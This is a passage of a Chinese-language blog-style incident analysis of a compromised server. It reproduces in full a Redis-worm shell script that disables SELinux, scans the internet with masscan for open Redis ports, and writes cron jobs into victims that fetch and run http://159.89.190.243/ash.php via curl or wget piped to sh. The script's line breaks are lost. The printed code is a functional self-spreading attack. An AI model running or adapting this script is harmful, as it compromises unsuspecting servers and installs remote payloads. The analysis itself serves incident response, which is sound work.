 这段脚本的代码比较长，但主要的功能有4个：

> \1. 下载远程代码到本地，添加执行权限，chmod u+x。
> \2. 修改rc.local，让本地代码开机自动执行。
> \3. 下载github上的开源扫描器代码，并安装相关的依赖软件，也就是我上面的messages里看到的记录。
> \4. 下载第三个脚本，并且执行。

我去github上看了下这个开源代码，简直吊炸天。

> MASSCAN: Mass IP port scanner
> This is the fastest Internet port 
> scanner. It can scan the entire Internet in under 6 minutes, > 
> transmitting 10 million packets per second.
> It produces results similar to nmap, the most famous port scanner. 
> Internally, it operates more > like scanrand, unicornscan, and ZMap, 
> using asynchronous transmission. The major difference is > that it's 
> faster than these other scanners. In addition, it's more flexible, 
> allowing arbitrary > address ranges and port ranges.
> NOTE: masscan uses a custom TCP/IP stack. Anything other than simple 
> port scans will cause conflict with the local TCP/IP stack. This means 
> you need to either use the -S option to use a separate IP address, or 
> configure your operating system to firewall the ports that masscan uses.

transmitting 10 million packets per second(每秒发送1000万个数据包)，比nmap速度还要快，这就不难理解为什么阿里云把服务器冻结了，大概看了下readme之后，我也没有细究，继续下载第三个脚本。

```
setenforce 0 2>/dev/nullulimit -n 50000ulimit -u 50000sleep 1iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/nulliptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/nullsleep 1rm -rf .dat .shard .ranges .lan 2>/dev/nullsleep 1echo 'config set dbfilename "backup.db"' > .datecho 'save' >> .datecho 'flushall' >> .datecho 'set backup1 "


*/2 * * * * curl -fsSL http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup2 "


*/3 * * * * wget -q -O- http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup3 "


*/4 * * * * curl -fsSL http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup4 "


*/5 * * * * wget -q -O- http://159.89.190.243/ash.php | sh

"' >> .datecho 'config set dir "/var/spool/cron/"' >> .datecho 'config set dbfilename "root"' >> .datecho 'save' >> .datecho 'config set dir "/var/spool/cron/crontabs"' >> .datecho 'save' >> .datsleep 1masscan --max-rate 10000 -p6379,6380 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shardsleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .shardsleep 1masscan --max-rate 10000 -p6379,6380 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .rangessleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .rangessleep 1ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's//([0-9]{2})//16/g' > .inetsleep 1masscan --max-rate 10000 -p6379,6380 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lansleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .lansleep 60rm -rf .dat .shard .ranges .lan 2>/dev/null
```
